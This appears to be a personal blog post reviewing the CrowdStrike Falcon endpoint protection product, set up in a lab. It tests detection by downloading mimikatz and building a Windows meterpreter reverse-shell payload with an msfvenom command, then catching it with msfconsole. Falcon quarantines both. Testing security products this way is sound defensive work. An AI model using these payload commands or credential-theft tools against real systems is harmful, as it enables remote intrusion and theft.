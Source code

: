 ```yaml
---
layout: post
title: "Review of Falcon Crowdstrike"
date: 2024-01-07 16:45:59 +0800
---
```

### What is Falcon Crowdstrike?  
Falcon CrowdStrike is a platform built specifically to stop breaches and prevent attacks of all kinds.  

### Let's dive in  
![sensor-falcon](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/835ef1ba-e44e-4f41-b289-4655706f7701)  
First let's set up the sensor...  

And then we check if our sensors are working.  
- On windows

![cmd-query-for-sensors](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/e14550ad-8c1c-4ef7-82d0-30ae251450c1)  

- On falcon

![installed-sensor](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/32f16834-4981-4c6f-8332-39144eaf7835)  
&&  
![sensorr-check](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/c147e84a-a4e2-4e25-aa1a-033bd073b519)  

Now we need to add some policies before we test the falcon.  
For this we must add our computers to a group because the policy will affects all of that group.  

![creation-group](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/dbd9970b-57d5-4d27-af53-11ea5606601d)  

From here we can add our computer to a group.  
After that we can make our policy.  

![create-policy](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/1cf3d6e7-4f3d-41e0-bc92-d082e6a95aff)  

Now let's try to install [mimikatz.](https://github.com/ParrotSec/mimikatz)  
For this I used git command.  

![installation-mimikatz](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/e2dc9a58-558a-4a54-8220-c21314f2ec28)  

And we can see Falcon's notification at the bottom right. And Falcon quarantined this entire file.  

![quarantined-files](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/669954f3-379a-4463-b7fc-4082c6459ab1)  

If we look at the endpoint detection pane, it looks like this...  

![crowdstrike-review](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/832b4cca-2f5f-42d5-bfbe-87163d0670ae)  

Now let's create reverse shell for windows with mfsvenom.  

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip-addr> LPORT=<port-number> --format exe -o payload.exe
```
![msfvenom-payload](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/ac14994d-2eb6-44b3-a226-b5a4b5069789)  

And sending this payload with netcat to windows.  
![netcat-payload](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/6ab34893-fa58-4992-bb2e-95d841c7ee50)  

Now we can listen with msfconsole.  
![msfconsole](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/99d7fdaf-45ca-4de8-bf80-00783d707072)  

![payload-falcon-result](https://github.com/3xg3lin/3xg3lin.github.io/assets/73038148/a6efbef9-9a42-4ee7-898f-0968ff4823b4)  
When you click the run file, Falcon detects this file and quarantines it.  

